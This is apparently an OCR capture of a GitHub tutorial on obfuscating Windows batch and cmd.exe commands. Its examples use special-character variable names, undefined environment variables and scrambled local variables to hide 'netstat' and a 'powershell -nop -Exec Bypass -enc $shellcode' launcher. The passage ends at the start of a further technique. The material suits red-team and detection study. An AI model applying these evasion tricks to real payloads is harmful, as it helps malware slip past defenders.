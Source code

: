       cmd.exe variable declarations also accepts special characters

- String obfuscated [special characters inside set declarations]<br />
`cmd.exe /c "set --$#$--=net&& set '''=at&&set ;;;;=st&&" cmd /c %--$#$--%%;;;;%%'''% -s -p UDP`

![batch obfuscation](http://i.cubeupload.com/v5FqKw.jpg)

---

      Obfuscating windows batch files using undefined environmental variables.
      '''Inside .bat files''' undefined environmental variables are expanded into empty strings
      Since cmd.exe allows using variables inside commands, this can be used for obfuscation.

      Choose some set of environmental variables that you are certain are not defined
      on most of the machines Example: single or two letter variables like %A%, %0B%, %C% ..

<br />

- String command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -Exec Bypass -noni -enc $shellcode`<br />

- String obfuscated (**undefined-vars.bat**)<br />

      @echo off
      %comspec% /c p%A%owe%B%rshell.e%C%xe -n%C%op -E%A%xec B%C%yp%B%ass -n%A%oni -e%A%nc $shellcode
      exit

![batch obfuscation](http://i65.tinypic.com/16j287c.jpg)<br />
`HINT: Undefined variables technic are only accessible in bat scripting (it will not work in terminal)`

---

      We can also use batch local enviroment variables to scramble the syscall's
      Since cmd.exe allows using variables inside commands, this can be used for obfuscation.
      HINT: chose letters as: 'a e i o u' because they are the most commom ;)
      HINT: dont leave 'empty spaces' defining variables (set i#=t<empty-space>)

<br />

- String command to obfuscate<br />
`netstat -s | findstr Opens`<br />

- String obfuscated (**test.bat**)<br />

      @echo off
      set i#=t
      set pP0=p
      set db0=a
      set !h=n

      %!h%e%i#%st%db0%%i#% -"s" | fi%!h%ds%i#%r O%pP0%e%!h%s

![batch obfuscation](http://i64.tinypic.com/33lmik5.jpg)

---

      This next technic uses one batch local variable (%varObj%) as MasterKey that allow us to extract
      the strings inside the %varoBj% variable to build our command. [special thanks: @Wandoelmo Silva]
